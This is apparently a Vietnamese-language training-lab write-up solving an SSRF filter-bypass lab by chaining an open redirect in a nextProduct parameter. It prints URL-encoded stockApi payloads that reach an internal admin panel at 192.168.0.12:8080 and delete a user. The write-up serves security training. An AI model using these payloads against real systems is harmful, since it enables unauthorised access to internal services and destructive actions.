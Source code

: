 ## SSRF with filter bypass via open redirection vulnerability

Bắt lại request checkStock ta sẽ có value của param stockApi là **/product/stock/check?productId=1&storeId=1**

Ở description Lab bảo là phải đổi url tới địa chỉ 192.168.0.12:8080/admin

![](/imgs/SSRF/18.png?raw=true)

Cho nên mình sẽ lợi dụng chức năng next product có sẵn param để redirect sang luôn.

```markdown
**GET /product/nextProduct?currentProductId=1&path=/product?productId=2**
```

Cho nên stockApi của request sẽ là

```markdown
**stockApi=/product/nextProduct?currentProductId=1%26path%3dhttp%3a//192.168.0.12%3a8080/admin**
```

![](/imgs/SSRF/19.png?raw=true)

Tiến hành delete user carlos

```markdown
**stockApi=/product/nextProduct?currentProductId=1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos**
```

![](/imgs/SSRF/20.png?raw=true)


